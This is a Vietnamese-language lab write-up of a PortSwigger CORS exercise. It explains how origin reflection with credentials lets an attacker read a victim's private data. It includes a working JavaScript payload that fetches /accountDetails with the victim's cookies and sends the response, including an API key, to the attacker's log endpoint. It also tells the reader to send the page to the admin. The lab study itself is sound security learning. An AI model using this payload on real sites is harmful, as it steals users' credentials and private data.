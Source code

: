 - Khi victim vào trang độc:

  - Trình duyệt gửi request đến vulnerable-website.com kèm session cookie của victim.

  - Server trả dữ liệu nhạy cảm về.

  - Trình duyệt cho JS đọc dữ liệu đó (vì CORS cho phép).

  - JS attacker gửi dữ liệu này về server của hắn.

  → Attacker đọc được dữ liệu riêng tư (API key, CSRF token, PII...) của victim.

### Lab: CORS vulnerability with basic origin reflection

- Giao diện khi đăng nhập: _wiener:peter_

  <img width="1919" height="936" alt="Screenshot 2025-09-16 163443" src="https://github.com/user-attachments/assets/ae39d811-0c5e-4020-a0d4-6ba246e259ba" />

  &rarr; có hiện API key cá nhân.

- Check HTTP history, ta để ý thấy một AJAX request /accountDetails và phản hồi trả về dữ liệu dạng JSON:

  <img width="1918" height="641" alt="image" src="https://github.com/user-attachments/assets/04269ac5-0f45-4371-872d-a92fc8683983" />

  Để ý thấy rằng trong response của server có header _Access-Control-Allow-Credentials_ &rarr; có sử dụng CORS.

- Thực hiện gửi request trên vào trong Burp Repeater.

- Sau đó thêm một header là _Origin_ với giá trị là một domain tùy ý như: _https://example.com_ để test phản hồi của server:

  <img width="1919" height="882" alt="image" src="https://github.com/user-attachments/assets/a0efb86b-8263-4d24-bb40-a8bef5062ca5" />

  Thấy được ngay rằng giá trị của header _Access-Control-Allow-Origin_ được reflect y hệt nwh trong request &rarr; Dev cấu hình lỗi CORS.

- Truy cập exploit server, trong file /exploit ta viết phần body với đoạn JS như sau:

  ```javascipt
  <script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
  </script>
  ```  

  <img width="1919" height="938" alt="image" src="https://github.com/user-attachments/assets/431003bd-8e9d-4933-83ea-4b421e249588" />

  Gửi cho thằng admin và đợi nó truy cập vào đường dẫn &rarr; Tự động gửi request với session cookie của nó tới server, và ta cũng sẽ đọc được response của server trả về exploit     server vì thằng dev cấu hình sau CORS.
